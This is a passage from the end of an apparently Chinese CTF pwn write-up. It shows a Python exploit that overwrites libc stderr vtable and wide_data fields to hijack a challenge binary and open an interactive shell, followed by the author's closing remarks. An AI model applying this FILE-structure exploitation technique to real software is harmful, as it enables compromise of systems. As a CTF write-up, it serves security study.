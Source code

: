 ```python
shellcode1 = generate_read(off(STDERR_VTABLE), 0x510) + generate_read(off(LIBC_STDERR+0x28), 0xffffffffffffff00)+ generate_read(off(LIBC_STDERR+0xc0), 0xffffffffffffffff) + generate_read(off(WIDE_DATA), 0xfffffffffffffaf0) + generate_read(off(WIDE_DATA+0x18), 0xfffffffffffffaf0) + generate_read(off(WIDE_DATA+0x20), 0xfffffffffffffa00) + generate_read(off(WIDE_DATA+0x20), 0xffffffffffffff00) + generate_read(off(WIDE_DATA+0xe0), 0xffffffffffffba20) + generate_read(off(LIBC_STDERR+0x18), 0x1ca9b3) + generate_read(off(LIBC_STDERR), 0xff978cd18d43be58) 
# set debug 
debug_shellcode = xor_value_reg(0)
debug_shellcode += nop()
debug_shellcode += nop()

ph.sendline(shellcode1+debug_shellcode)

ph.interactive()

```

总结
--

- 题目的设计非常有意思，流水线是一种比较实际的场景，这种漏洞模式在真实场景中甚至会存在，具有学习价值
- 板子题我本人做的不多，所以调试花了非常多的时间，在这里感谢帮忙一并调试的师傅们~